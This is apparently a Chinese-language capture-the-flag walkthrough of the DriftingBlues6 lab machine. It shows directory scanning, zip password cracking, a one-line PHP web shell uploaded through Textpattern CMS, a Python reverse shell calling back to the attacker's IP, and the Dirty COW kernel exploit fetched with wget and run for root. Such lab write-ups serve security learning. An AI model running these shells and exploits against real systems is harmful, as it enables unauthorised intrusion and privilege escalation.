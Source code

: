 # DriftingBlues6
## 0. 准备阶段
```
本机IP：
192.168.45.247
目标IP:
192.168.237.219
```
## 1. 信息收集
```
端口:
PORT   STATE SERVICE
80/tcp open  http

服务器:
Apache/2.2.22 (Debian)

目录:
http://192.168.237.219/textpattern/
http://192.168.237.219/db
http://192.168.237.219/robots.txt
```
## 2. 立足点获取
访问可疑目录 `http://192.168.237.219/robots.txt`
![[Pasted image 20240816074754.png]]

提示使用目录扫描时加上后缀 `.zip`
刚才扫描时确实没有这样做，于是再扫一遍，并且使用一个中级字典
```shell
gobuster dir -u http://192.168.237.219 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .zip
```

扫出一个压缩包，下载之
```
http://192.168.237.219/spammer.zip
```

发现里面有文件 `creds.txt`，是 credentials (凭证) 的意思，应该有重要信息
![[Pasted image 20240816080538.png]]

进行解析，提示需要密码
![[Pasted image 20240816081231.png]]

尝试弱口令
```
123456
spammer
123123
```
失败

那就上压缩包爆破工具 `fcrackzip` 
```shell
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt spammer.zip
```
非常快地得到了密码
```
myspace4
```

得到类似于用户名和密码的文件，由于目标机器未开放 `ssh` 服务，所以可能是 web 的登陆密码
![[Pasted image 20240816082003.png]]

进入`robots.txt`包含的登陆页面
![[Pasted image 20240816075718.png]]

尝试弱口令
```
admin admin
admin 123456
admin 123123
root root
```
失败

用上之前的压缩包
```
mayer:lionheart
```
登陆成功

发现可以上传文件，直接上传一个一句马 `tmp.php`
```php
<?php system($_GET['cmd']); ?>
```

应该是上传成功了
![[Pasted image 20240816082816.png]]

接下来找到了文件的上传路径
![[Pasted image 20240816083000.png]]
但是没有找到 LFI。

决定上网搜索 CMS
https://github.com/ricardojoserf/textpattern-exploit-rce
失败

又找了一个 exp
https://www.exploit-db.com/exploits/49996 
这个网站提示说有 RCE，让我们上传一句话木马(之前已经上传过了)，然后输入URL：
```
http://192.168.237.219/textpattern/files/tmp.php?cmd=whoami
```
执行成功

找一找 python2
```
http://192.168.237.219/textpattern/files/tmp.php?cmd=which python2
```
存在 python2

上 reverse shell
```shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.247",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```
成功连接

查找敏感目录，结果没有 flag
```
/var/www
/ect/passwd
/home
```
于是开始提权
## 3. 提权
尝试利用 Linux 系统内核漏洞进行提权
显示当前版本号
```shell
uname -r
```
得到版本号
```
3.2.0-4-amd64
```

上网搜索相关漏洞
https://www.exploit-db.com/exploits/40839
将这个网址的 C 代码复制到本地

搭建本地临时服务器
```shell
python -m http.server 80
```

在目标机器中接收本地服务器的文件
```shell
/tmp目录下
wget http://192.168.45.247/dirty.c
```

在目标机器上编译
```shell
gcc -pthread dirty.c -o dirty -lcrypt
```
运行
```shell
./dirty
```

然后切换具有 root 权限的用户 `firefart`
```shell
su fire
```
设置新密码
![[Pasted image 20240816090545.png]]

在 `/root` 下找到 flag
![[Pasted image 20240816090719.png]]

**另外，这个 exp 还将之前的 `/etc/passwd` 备份到 `/tmp/passwd.bak`，如果是在自己的机器上使用脏牛提权，记得要还原**

